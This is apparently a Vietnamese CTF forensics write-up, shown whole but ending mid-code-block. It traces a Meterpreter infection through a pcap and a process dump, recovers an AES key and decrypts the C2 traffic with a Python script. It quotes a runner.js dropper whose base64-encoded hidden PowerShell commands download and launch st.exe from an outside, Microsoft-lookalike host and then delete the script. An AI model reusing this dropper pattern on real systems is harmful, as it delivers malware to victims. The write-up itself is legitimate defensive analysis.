# Challenge Shadow of the Undead

## 1. Đầu vào challenge và pivot từ HTTP

Đầu vào challenge cung cấp 2 file capture.pcap và st.dmp. Check thử file st.dmp thì biết được file này là một file dump.



Đồng thời vì challenge cung cấp kèm theo 1 file pcap nên có thể nghi ngờ file dump này chứa thông tin liên quan đến process nào, key gì đó dùng để phân tích traffic trong file pcap.

Từ Protocol Hierarchy trong Wireshark, nhận thấy có khá nhiều gói Data lạ và có dung lượng lớn, đồng thời các gói của http cũng ít nên có thể pivot sang http trước.



Sử dụng filter.

```text
http
```



Từ đây có thể thấy ban đầu có 1 request tải file runner.js, sau đó tiếp tục tải file st.exe và một file PDF tên biohazard_containment_update.pdf.

Khi bấm vào TCP stream của request tải file runner thấy được 1 đoạn PowerShell script chứa những đoạn payload chạy bằng hidden và bị encode bằng base64.



## 2. Phân tích `runner.js` và `st.exe`

```javascript
var sh = new ActiveXObject("WScript.Shell");
sh.Run(
"powershell.exe -W Hidden -nop -ep bypass -NoExit -E JABuAGEAbQBlACAAPQAgACIAYgBpAG8AaABhAHoAYQByAGQAXwBjAG8AbgB0AGEAaQBuAG0AZQBuAHQAXwB1AHAAZABhAHQAZQAuAHAAZABmACIADQAKACQAcABhAHQAaAAgAD0AIAAiACQAZQBuAHYAOgBUAEUATQBQAFwAXAAkAG4AYQBtAGUAIgANAAoASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAFIASQAgACIAaAB0AHQAcAA6AC8ALwBzAHQAbwByAGEAZwBlAC4AbQBpAGMAcgBvAHMAbwBmAHQAYwBsAG8AdQBkAHMAZQByAHYAaQBjAGUAcwAuAGMAbwBtADoAOAA4ADEANwAvACQAbgBhAG0AZQAiACAALQBPAHUAdABGAGkAbABlACAAJABwAGEAdABoAA0ACgBTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAAJABwAGEAdABoAA=="
);
sh.Run(
"powershell.exe -W Hidden -nop -ep bypass -NoExit -E aQB3AHIAIAAtAHUAcgBpACAAaAB0AHQAcAA6AC8ALwBzAHQAbwByAGEAZwBlAC4AbQBpAGMAcgBvAHMAbwBmAHQAYwBsAG8AdQBkAHMAZQByAHYAaQBjAGUAcwAuAGMAbwBtADoAOAA4ADEANwAvAHMAdAAuAGUAeABlACAALQBvAHUAdABmAGkAbABlACAAJABlAG4AdgA6AFQARQBNAFAAXABzAHQALgBlAHgAZQANAAoAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgACQAZQBuAHYAOgBUAEUATQBQAFwAcwB0AC4AZQB4AGUAIAAtAFYAZQByAGIAIABSAHUAbgBBAHMA"
);
var js_file_path = WScript.ScriptFullName;
sh.Run("cmd.exe /c del " + js_file_path);
```

Khi decode base64 ra thì thu được script này tạo tên file PDF là `biohazard_containment_update.pdf`, sau đó tạo đường dẫn trong thư mục TEMP.

Tiếp theo nó dùng `Invoke-WebRequest` để tải file từ server về, trong đó có file PDF và file `st.exe`. Sau khi tải xong thì script chạy file `st.exe` bằng `Start-Process`.

Vậy `runner.js` chỉ là file dùng để chạy PowerShell và tải các file tiếp theo về máy nạn nhân.



Giờ export 2 file này ra nhưng tập trung vào file st.exe hơn. Check file thì biết được file st.exe là một file thực thi Windows 32-bit.



Sử dụng IDA để decompile nhưng khá rối nên chưa tìm được gì thêm.

Check thêm bằng VirusTotal thì biết được file này bị nhận diện là Meterpreter/Trojan.



Vậy nghi ngờ phần TCP/Data ở port lạ có thể là traffic Metasploit sau khi st.exe chạy.

## 3. Pivot sang memory dump `st.dmp`

Thử pivot đi từ file dump. Sử dụng WinDbg của Windows để mở file st.dmp. Tiếp tục pivot sang file dump, sử dụng WinDbg để đọc file dump process. Sau khi load file st.dmp vào WinDbg, sử dụng lệnh để phân tích:

```text
!analyze -v
```



Kết quả thu được.

```text
KEY_VALUES_STRING: 1
    Key  : Analysis.CPU.mSec
    Value: 781
    Key  : Analysis.Elapsed.mSec
    Value: 38023
    Key  : Analysis.IO.Other.Mb
    Value: 14
    Key  : Analysis.IO.Read.Mb
    Value: 1
    Key  : Analysis.IO.Write.Mb
    Value: 29
    Key  : Analysis.Init.CPU.mSec
    Value: 359
    Key  : Analysis.Init.Elapsed.mSec
    Value: 112050
    Key  : Analysis.Memory.CommitPeak.Mb
    Value: 69
    Key  : Analysis.Version.DbgEng
    Value: 10.0.29547.1002
    Key  : Analysis.Version.Description
    Value: 10.2602.27.2 amd64fre
    Key  : Analysis.Version.Ext
    Value: 1.2602.27.2
    Key  : Failure.Bucket
    Value: BREAKPOINT_80000003_mswsock.dll!SockWaitForSingleObject
    Key  : Failure.Exception.Code
    Value: 0x80000003
    Key  : Failure.Hash
    Value: {2cb12fbb-08f6-dfda-32e9-a2ed11ecd404}
    Key  : Failure.ProblemClass.Primary
    Value: BREAKPOINT
    Key  : Faulting.IP.Type
    Value: Null
    Key  : Timeline.OS.Boot.DeltaSec
    Value: 1138
    Key  : Timeline.Process.Start.DeltaSec
    Value: 75
    Key  : WER.OS.Branch
    Value: vb_release
    Key  : WER.OS.Version
    Value: 10.0.19041.1
FILE_IN_CAB:  st.dmp
NTGLOBALFLAG:  0
APPLICATION_VERIFIER_FLAGS:  0
EXCEPTION_RECORD:  (.exr -1)
ExceptionAddress: 0000000000000000
   ExceptionCode: 80000003 (Break instruction exception)
  ExceptionFlags: 00000000
NumberParameters: 0
FAULTING_THREAD:  1c74
PROCESS_NAME:  st.exe
ERROR_CODE: (NTSTATUS) 0x80000003 - {EXCEPTION}  Breakpoint  A breakpoint has been reached.
EXCEPTION_CODE_STR:  80000003
STACK_TEXT:
00000000`0014f608 00007ffc`46c680fc     : 00000000`00000001 00000000`00542c20 00000000`00538f10 00000000`00000194 : ntdll!NtWaitForSingleObject+0x14
00000000`0014f610 00007ffc`46c6f4de     : 00000000`00000190 00000000`00000001 00000000`0014f7d0 00000000`00000000 : mswsock!SockWaitForSingleObject+0x10c
00000000`0014f6b0 00007ffc`496c16f7     : 00000000`00000000 00007ffc`47c330ce 00000000`00000000 00000000`00000000 : mswsock!WSPSelect+0x85e
00000000`0014f860 00000000`001bb272     : 00000000`00000195 00000000`00532fe0 00000000`00531a70 00000000`0000c350 : ws2_32!select+0x137
00000000`0014f940 00000000`00000195     : 00000000`00532fe0 00000000`00531a70 00000000`0000c350 00000000`0014fb90 : 0x1bb272
00000000`0014f948 00000000`00532fe0     : 00000000`00531a70 00000000`0000c350 00000000`0014fb90 00000000`00000000 : 0x195
00000000`0014f950 00000000`00531a70     : 00000000`0000c350 00000000`0014fb90 00000000`00000000 00000000`00000001 : 0x532fe0
00000000`0014f958 00000000`0000c350     : 00000000`0014fb90 00000000`00000000 00000000`00000001 00000000`00000194 : 0x531a70
00000000`0014f960 00000000`0014fb90     : 00000000`00000000 00000000`00000001 00000000`00000194 00000000`00000008 : 0xc350
00000000`0014f968 00000000`00000000     : 00000000`00000001 00000000`00000194 00000000`00000008 00000000`00000002 : 0x14fb90
STACK_COMMAND: ~0s; .ecxr ; kb
SYMBOL_NAME:  mswsock!SockWaitForSingleObject+10c
MODULE_NAME: mswsock
IMAGE_NAME:  mswsock.dll
FAILURE_BUCKET_ID:  BREAKPOINT_80000003_mswsock.dll!SockWaitForSingleObject
OS_VERSION:  10.0.19041.1
BUILDLAB_STR:  vb_release
OSPLATFORM_TYPE:  x64
OSNAME:  Windows 10
IMAGE_VERSION:  10.0.19041.3636
FAILURE_ID_HASH:  {2cb12fbb-08f6-dfda-32e9-a2ed11ecd404}
Followup:     MachineOwner
```

### Phân tích

Sau khi chạy !analyze -v, thấy process trong dump là st.exe. Ngoài ra trong phần stack có xuất hiện các hàm như mswsock!WSPSelect và ws2_32!select.



(có thể đọc qua ở đây LINK)

Đây là các hàm liên quan tới socket/network trên Windows. Điều này khá khớp với những gì thấy trong pcap, vì sau khi st.exe được tải về và chạy thì xuất hiện nhiều Data lạ.

Vì vậy khi thử check trong Conversations thì thấy được một TCP stream giữa `10.1.1.3` và `10.1.1.1` qua port `21589`.

Stream này có số lượng packet và bytes khá lớn, khác với các request HTTP ban đầu chỉ dùng để tải file.



Khi dùng filter.

```text
tcp.port == 21589
```

Thấy dữ liệu của các stream đang bị mã hóa. Vì trước đó st.dmp là memory dump của process st.exe, nên nghi ngờ trong dump có thể còn lưu key dùng để mã hóa traffic.

Vì vậy sử dụng aeskeyfind để tìm AES key từ file dump:



Vậy key là.

```text
06571ffb8b42b04b30c6ba5829f06681c289bdbd882159e3d2d3197bdd69da9e
```

## 4. Phân tích format mã hóa Meterpreter

Sau khi tìm được key cũng như đã biết `st.exe` bị nhận diện là Metasploit. Khi tra cứu về Meterpreter packet format thì biết được cách mà Meterpreter mã hóa data gửi đi và cách decrypt traffic.

Cụ thể, Meterpreter sử dụng packet dạng TLV. Nếu packet có encrypt flag thì phần data sẽ được mã hóa. Với flag AES-256, dữ liệu sẽ có IV 16 bytes ở đầu, phần còn lại là ciphertext được mã hóa bằng AES-256-CBC.



(Có thể đọc qua về source code: Link1 và Link2)

### 4.1. Packet format

Đầu tiên xem format packet. Trong source, class Packet comment rõ packet Meterpreter có header riêng, gồm XOR KEY, Session GUID, Encrypt flags, Packet length, Packet type, rồi mới tới Packet data:

```text
# XOR KEY        - 4 bytes
# Session GUID   - 16 bytes
# Encrypt flags  - 4 bytes
# Packet length  - 4 bytes
# Packet type    - 4 bytes
# Packet data    - X bytes
```

Vì vậy raw TCP stream không thể đem AES decrypt ngay. Phải parse packet theo format này trước.

Tiếp theo, source nói rõ nếu encrypt flags bằng 0 thì packet data là TLV bình thường. Nếu encrypt flags khác 0 thì data bị mã hóa. Đặc biệt đoạn comment này cho biết Flag == 1 là AES256, và format phần encrypted data là IV 16 bytes + encrypted data:

```text
# If the encrypt flags are zero, then the Packet data is just straight TLV values as
# per the normal TLV packet structure.
#
# If the encrypt flags are non-zer, then the Packet data is encrypted based on the scheme.
#
# Flag == 1 (AES256)
#    IV             - 16 bytes
#    Encrypted data - X bytes
```

Đây là chỗ biết flag == 1 nghĩa là AES-256, không phải đoán từ pcap.

Các constant bên dưới xác nhận lại giá trị flag:

```text
AES_IV_SIZE = 16

ENC_FLAG_NONE   = 0x0
ENC_FLAG_AES256 = 0x1
ENC_FLAG_AES128 = 0x2
```

Vậy nếu parse header ra encrypt_flags = 1 thì dùng AES-256, còn IV dài 16 bytes.

### 4.2. Cách tạo và parse packet

Sau đó xem cách source tạo packet khi gửi. Hàm to_r tạo xor_key, build raw, nếu có key AES thì encrypt TLV data, rồi pack theo thứ tự key type, length, packet type, iv, ciphertext:

```ruby
xor_key = (rand(254) + 1).chr + (rand(254) + 1).chr + (rand(254) + 1).chr + (rand(254) + 1).chr

raw = (session_guid || NULL_GUID).dup
tlv_data = GroupTlv.instance_method(:to_r).bind(self).call

if key && key[:key] && (key[:type] == ENC_FLAG_AES128 || key[:type] == ENC_FLAG_AES256)
  # encrypt the data, but not include the length and type
  iv, ciphertext = aes_encrypt(key[:key], tlv_data[HEADER_SIZE..-1])
  # now manually add the length/type/iv/ciphertext
  raw << [key[:type], iv.length + ciphertext.length + HEADER_SIZE, self.type, iv, ciphertext].pack('NNNA*A*')
else
  raw << [ENC_FLAG_NONE, tlv_data].pack('NA*')
end

# return the xor'd result with the key
xor_key + xor_bytes(xor_key, raw)
```

Đoạn này cho biết toàn bộ raw sau xor_key bị XOR trước khi gửi ra mạng. Vì thế khi decrypt traffic phải XOR trước, rồi mới đọc được header/data thật.

Hàm parse_header! cho biết cách đọc header ở phía nhận: lấy 4 byte đầu làm xor_key, XOR phần header, rồi unpack ra session_guid, encrypt_flags, length, type:

```ruby
def parse_header!
  xor_key = self.raw.unpack('a4')[0]
  data = xor_bytes(xor_key, self.raw[0..PACKET_HEADER_SIZE])
  _, self.session_guid, self.encrypt_flags, self.length, self.type = data.unpack('a4a16NNN')
end
```

Từ đây suy ra script của mình cũng phải làm y hệt: lấy 4 byte đầu làm XOR key, XOR header, rồi mới lấy được encrypt_flags và length.

### 4.3. Cơ chế decrypt

Cuối cùng là đoạn decrypt. Hàm decrypt_packet kiểm tra nếu encrypt_flags khớp với key type và là AES128/AES256 thì lấy 16 byte đầu của data làm IV, rồi decrypt phần còn lại:

```ruby
def decrypt_packet(key, encrypt_flags, data)
  if key && key[:key] && key[:type] && encrypt_flags == key[:type] && (encrypt_flags == ENC_FLAG_AES128 || encrypt_flags == ENC_FLAG_AES256)
    iv = data[0, AES_IV_SIZE]
    aes_decrypt(key[:key], iv, data[iv.length..-1])
  else
    data
  end
end
```

Còn hàm aes_decrypt cho biết mode được dùng là AES-CBC:

```ruby
aes = OpenSSL::Cipher.new("AES-#{size}-CBC")
aes.decrypt
aes.key = key
aes.iv = iv
aes.update(data) + aes.final
```

Vì key lấy từ aeskeyfind dài 32 bytes nên size = 256, tức là AES-256-CBC.

Tóm lại, từ source suy ra flow decrypt traffic là:

```text
raw TCP stream
-> lấy 4 byte đầu làm XOR key
-> XOR header để lấy encrypt_flags, length, packet_type
-> XOR packet data
-> nếu encrypt_flags == 1:
      lấy 16 byte đầu làm IV
      AES-256-CBC decrypt phần còn lại bằng key từ st.dmp
-> output sau decrypt là TLV data
```

## 5. Decrypt traffic Meterpreter

Trước tiên export TCP stream ở port 21589 ra dạng raw để làm input cho script decrypt.

Sử dụng script Python để mô phỏng đúng flow xử lý packet trong source Metasploit.

```python
from pathlib import Path
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
KEY = bytes.fromhex("06571ffb8b42b04b30c6ba5829f06681c289bdbd882159e3d2d3197bdd69da9e")
data = Path("stream_21589.bin").read_bytes()
Path("dump").mkdir(exist_ok=True)
def xor4(b, k):
    return bytes(x ^ k[i % 4] for i, x in enumerate(b))
i = 0
pkt = 0
while i + 32 <= len(data):
    xkey = data[i:i+4]
    hdr = xor4(data[i:i+32], xkey)
    flags = int.from_bytes(hdr[20:24], "big")
    length = int.from_bytes(hdr[24:28], "big")
    ptype = int.from_bytes(hdr[28:32], "big")
    total = 24 + length
    if flags not in (0, 1) or ptype not in (0, 1, 10, 11) or length < 8 or i + total > len(data):
        i += 1
        continue
    body = xor4(data[i+32:i+total], xkey)
    if flags == 1:
        iv, ct = body[:16], body[16:]
        if len(ct) % 16:
            i += 1
            continue
        try:
            body = AES.new(KEY, AES.MODE_CBC, iv).decrypt(ct)
            try:
                body = unpad(body, 16)
            except ValueError:
                pass
        except Exception:
            i += 1
            continue
    off = 0
    tlv = 0
    ok = False
    while off + 8 <= len(body):
        tlv_len = int.from_bytes(body[off:off+4], "big")
        tlv_type = int.from_bytes(body[off+4:off+8], "big")
        if tlv_len < 8 or off + tlv_len > len(body):
            break
        value = body[off+8:off+tlv_len]
        if len(value) > 512:
            name = f"dump/pkt{pkt}_tlv{tlv}_type_{tlv_type:08x}.bin"
            Path(name).write_bytes(value)
            print(f"[+] {name} size={len(value)}")
        off += tlv_len
        tlv += 1
        ok = True
    if ok:
        print(f"packet {pkt}: offset={i}, flags={flags}, length={length}, type={ptype}")
        pkt += 1
        i += total
    else:
        i += 1
```

Script đọc file raw TCP stream, lần lượt tìm các packet hợp lệ, lấy 4 byte XOR key để giải XOR phần header/body. Nếu packet có flags = 1, script tiếp tục decrypt body bằng AES-CBC. Sau khi có plaintext body, script parse các TLV bên trong và dump tất cả TLV có kích thước lớn.

Kết quả thu được là các TLV lớn được dump ra thư mục dump, nhưng chú ý hơn vào 3 file: pkt40_tlv3_type_00014eea.bin, pkt49_tlv2_type_00014e21.bin và pkt60_tlv4_type_000407d4.bin.



3 file này khi dùng strings có nội dung đáng chú ý. Cụ thể:

### File pkt40_tlv3_type_00014eea.bin

Được lệnh file nhận diện là PE32+ executable DLL x86-64. Khi strings thấy nhiều API Windows như LoadLibraryA, GetProcAddress, CreateFileA, WriteFile, Sleep... nên khả năng đây là một DLL/module được Meterpreter gửi xuống trong quá trình hoạt động.

### File pkt49_tlv2_type_00014e21.bin

Khi strings thấy các dòng hash tài khoản Windows như Administrator, BIOHAZARD_MGMT_GUEST, Guest, HSTER-ADMIN... Đây là dữ liệu dump thông tin user/hash từ hệ thống nạn nhân.

### File pkt60_tlv4_type_000407d4.bin

File này không có PE header nên file chỉ nhận là data, nhưng strings lại thấy các chuỗi như user32.dll, advapi32.dll, netapi32.dll, LoadLibraryA, GetProcAddress, RegGetValueA, RegSetKeyValueA, NetUserSetInfo. Đây là các API thường xuất hiện trong shellcode tự load thư viện và gọi hàm Windows. Vì vậy mình xác định file này là raw shellcode cần phân tích tiếp.

## 6. Phân tích shellcode bằng Speakeasy

Sử dụng Speakeasy để emulate shellcode:

```bash
speakeasy -t dump/pkt60_tlv4_type_000407d4.bin --raw --arch amd64 -r -o report.json
```

(Lý do sử dụng Speakeasy là vì file pkt60_tlv4_type_000407d4.bin là raw shellcode Windows x64. Các tool như scdbg/libemu chủ yếu hỗ trợ shellcode x86 nên khi chạy file này sẽ hiểu sai instruction x64, ví dụ byte 0x48 bị hiểu thành dec eax thay vì REX prefix. Vì vậy scdbg không emulate đúng luồng thực thi của shellcode.)



Thấy được hiện tại shellcode đã được emulate thành công một phần. Speakeasy đã chạy tới đoạn LoadLibraryA, GetProcAddress, RegOpenKeyExA, RegGetValueA và wsprintfA. Tuy nhiên emulator dừng tại API advapi32.RegSetKeyValueA vì API này chưa được Speakeasy hỗ trợ sẵn.

Vì vậy cần bổ sung handler giả lập cho API này trong file:

```text
speakeasy/winenv/api/usermode/advapi32.py
```

```python
